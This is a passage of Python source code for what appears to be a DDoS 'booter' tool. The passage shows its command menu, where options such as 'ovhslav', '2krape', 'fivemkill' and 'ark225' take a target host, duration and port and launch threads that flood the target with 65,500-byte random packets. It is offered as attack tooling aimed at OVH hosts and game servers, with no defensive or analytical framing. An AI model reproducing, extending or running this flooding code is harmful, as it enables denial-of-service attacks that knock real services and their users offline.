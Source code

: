 				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "ovhslav":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "2krape":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "fivemkill":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "ark225":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()